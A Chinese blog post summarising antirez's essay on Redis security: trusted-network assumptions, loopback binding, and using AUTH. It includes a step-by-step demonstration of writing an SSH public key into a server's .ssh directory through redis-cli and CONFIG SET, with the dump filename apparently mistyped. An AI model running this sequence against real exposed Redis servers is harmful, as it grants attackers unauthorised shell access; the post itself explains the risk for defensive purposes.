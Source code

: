 +++
title = "Redis的安全哲学"
draft = false
date = "2016-02-15"
Categories = ["AkiRoss"] 
Description = "" 
Tags = ["redis","安全"] 
toc = true

+++

最近看到Redis的作者antirez写的一篇blog: http://antirez.com/news/96
里面有些东西很有意思.摘录一些观点:
## 为什么Redis这么多"安全漏洞"?

作者说经常收到一些Redis不安全的Report,但是大部分Report其实跟Redis没有什么关系或者说对Redis来说无关紧要.因为Redis的绝大多数用户都是将Redis放到一个安全的环境里面,而安全是一个很大的feature,Redis不会为了一小撮用户做开发这么复杂的功能. 
>it’s totally insecure to let untrusted clients access the system, please protect it from the outside world yourself

## 一次Hack过程
安全页面写到: http://redis.io/topics/security
>the ability to control the server configuration using the CONFIG command makes the client able to change the working directory of the program and the name of the dump file. This allows clients to write RDB Redis files at random paths, that is a security issue that may easily lead to the ability to run untrusted code as the same user as Redis is running

所以,使用config命令可以往主机的Path写文件,作者展示了这一过程(为防止有些`script kiddies cut & paste the attack`,没有直接提供一个脚本,并且还首先备份了当前的数据,这里省略一些无关紧要的步骤):

1. 生成一对RSA key,并且写到一个文件里面,前后加上换行符
```
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```
2. 将public key写到一个KV里面
```
cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit
```
3. 设置工作目录
```
config set dir /Users/antirez/.ssh/
```
4. 将内存中数据保存到Db文件中
```
config set dbfilename "authorized.keys"
save
```

大功告成!

## 为什么不默认bind 127.0.0.1?
事实上,如果启动时候带上默认的配置文件(redis.conf),就不存在这个安全隐患,因为配置文件里面默认是只绑定了Loopback address.既然作者知道这个安全隐患,为什么不默认启用这个配置文件呢?(就像Mysql那样).

作者的解释是,因为RTFM（Read The Fucking Manual）

## 使用Auth
虽然并不能真正解决安全问题..最简单有效的方法就是使用Auth.使用Auth的的几点说明:

1. 密码要尽可能的复杂,以防被brute force
2. Auth的消耗非常少,只是在连接建立时候做一次鉴权,只有连接在,就不用再做鉴权
3. 未来可能会有ACL机制,比如某些用户并没有`config set dir`的权限


